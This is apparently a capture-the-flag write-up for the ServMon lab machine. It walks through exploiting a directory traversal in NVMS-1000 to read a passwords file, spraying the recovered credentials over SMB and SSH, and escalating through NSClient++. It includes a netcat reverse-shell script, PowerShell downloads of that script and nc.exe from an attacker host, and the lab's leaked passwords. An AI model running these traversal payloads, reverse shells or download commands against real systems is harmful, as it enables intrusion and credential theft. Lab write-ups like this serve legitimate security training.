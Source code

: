1, Recon
port scan 
	21/tcp ftp 
	22/tcp ssh
	80/tcp http
	135/tcp RPC
	445/tcp SMB
	8443/tcp https-alt
page check
	We can get the name of page title `NVMS-1000`
	And we can also get the exploits of that `NVMS 1000 - Directory Traversal`

And we have successfully test that:
```
python3 nvms.py 10.10.10.184 Windows/system.ini win.ini
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]

++++++++++  END  ++++++++++

```

Let's try to check other useful files and creds. But I did not know which files I need to check.

Let's come to port 21(service ftp).
Very luckily, we can login with anonymous user.
Then we get 2 files
```
cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine

cat 'Notes to do.txt' 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```
Then we know to get the `Password.txt` from Nathan's Desktop and we also know Nadine did not upload the password. That means the password would be not changed.

Let's get the `Password.txt`, then the payload is `/../../../../../../../../../../../../users/nathan/desktop/passwords.txt`

```
Password.txt

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Since I only have a list of passwords without usernames, I’ll create a list of what I know now:
```
user.txt

administrator
nathan
nadine
```
Let's use the `crackmapexec` to check the SMB credit.
`ServMon\nadine:L1k3B1gBut7s@W0rk`

2, shell as nadine
By check the credit to `evil-winrm` and `smbclient` and ssh.
Only ssh could be useful for us and we can get shell of nadine

Then we can enumerate the existed applications of this machine. 
`NSClient++` would be our target.

With a shell, I can get the NSClient++ password. I could do it by reading the .ini file, or just having the helper program tell me:
```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

If I try to log in from https://10.10.10.184:8443, it blocks me:
![](images/Pasted%20image%2020240913040259.png)

Towards the top of nsclient.ini, there’s this:
```
; Undocumented key                                                                                  
allowed hosts = 127.0.0.1 
```
I need to come from localhost. I’ll re-SSH with a tunnel that runs from my localhost:8443 to localhost on ServMon:8443:
```
ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443    
```

I was able to get success by taking the following steps based on How To Run Commands in the NSClient documentation. The steps are for directly interacting with the nsclient.ini file, but I eventually got a feel for how to use the web interface to get the same results:

1.Create shell.bat:
`\programdata\nc.exe 10.10.14.24 443 -e cmd`
This assumes that nc.exe is in C:\programdata (I will put it there) and it will connect back to me with a shell when run.

2.Upload nc64.exe and shell.bat to C:\programdata\. I started a Python HTTP server on my host, and used PowerShell’s wget command:
```
nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.65/nc64.exe -outfile nc.exe

nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.65/shell.bat -outfile shell.bat
```

3.In the NSClient++ GUI, first I’ll associate my script with a command by clicking Settings > external scripts > scripts, and then “+Add new”.
![](images/Pasted%20image%2020240913042430.png)
When I hit “Add”, df now shows up under scripts above, and the Changes tab turns red. I can go to Changes and save this to the disk config. This will add the following to the config file:
```
 ; in flight - TODO
   [/settings/external scripts/scripts/df]
   
   ; COMMAND - Command to execute
   command = C:\\programdata\\shell.bat
```

Now under scheduler > schedules I’ll hit the “+Add new” button. I need to add two things here. First, I’ll edit the section to add a new name, and then give it an interval of 10 seconds:

![](images/Pasted%20image%2020240913042509.png)

After hitting Add, I’ll change edit the form, and then Add again:

![](images/Pasted%20image%2020240913042519.png)

Now df shows up as a scheduled task, and I can see it has both key/values:
![](images/Pasted%20image%2020240913042533.png)


Go to Control –> Reload. Then Wait. It can take longer than it feels like it should. This box can be very frustrating.

